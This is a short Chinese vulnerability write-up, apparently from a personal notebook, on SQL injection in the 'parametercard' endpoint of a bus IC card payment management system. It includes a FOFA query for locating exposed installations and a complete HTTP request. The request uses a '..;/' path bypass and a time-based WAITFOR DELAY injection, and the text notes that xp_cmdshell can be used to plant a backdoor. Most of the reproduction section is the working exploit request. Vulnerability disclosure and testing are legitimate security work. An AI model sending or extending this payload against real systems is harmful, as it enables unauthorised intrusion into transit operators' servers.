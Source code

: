 # 公交IC卡收单管理系统parametercard存在SQL注入漏洞

# 一、漏洞简介
公交IC卡收单管理系统是城市公共交通领域中不可或缺的一部分，它通过集成先进的集成电路技术（IC卡）实现了乘客便捷的支付方式，并有效提高了公共交通运营效率。系统集成了发卡、充值、消费、数据采集、查询和注销等多个功能模块，为公交公司和乘客提供了全面、高效、便捷的公共交通支付解决方案。该系统不仅提升了乘客的出行体验，还降低了公交公司的运营成本，提高了管理效率。公交IC卡收单管理系统parametercard存在SQL注入漏洞。经过身份验证的攻击者通过漏洞执行任意SQL语句，调用xp_cmdshell写入后门文件，执行任意代码，从而获取到服务器权限。

# 二、影响版本
+ 公交IC卡收单管理系统

# 三、资产测绘
+ fofa`app="公交IC卡收单管理系统"`
+ 特征

![1727274040056-105b772f-bf3b-4e57-bb11-3f4c308b04c5.png](./img/85M-YfRK9InMkZ63/1727274040056-105b772f-bf3b-4e57-bb11-3f4c308b04c5-203251.png)

# 四、漏洞复现
```java
POST /assets/..;/parametercard HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:130.0) Gecko/20100101 Firefox/130.0
Priority: u=0
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
X-Requested-With: XMLHttpRequest
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Cookie: JSESSIONID=BE20D06711487C9D6D5325C1129F244C
Accept: application/json, text/javascript, */*; q=0.01
Accept-Encoding: gzip, deflate
 
method=select&organization=&lineCode=&_search=false&nd=1727249021156&rowCountPerPage=10&pageNo=1&sidx=LINE_CODE&sord=asc&ORGANIZATION_CODE=&LINE_CODE=1');WAITFOR DELAY '0:0:5'--
```

![1727274434961-80ba992d-1919-49df-a4ce-122d980cfdaa.png](./img/85M-YfRK9InMkZ63/1727274434961-80ba992d-1919-49df-a4ce-122d980cfdaa-709936.png)



> 更新: 2024-10-22 09:36:08  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/en6kvkeehgrtgagx>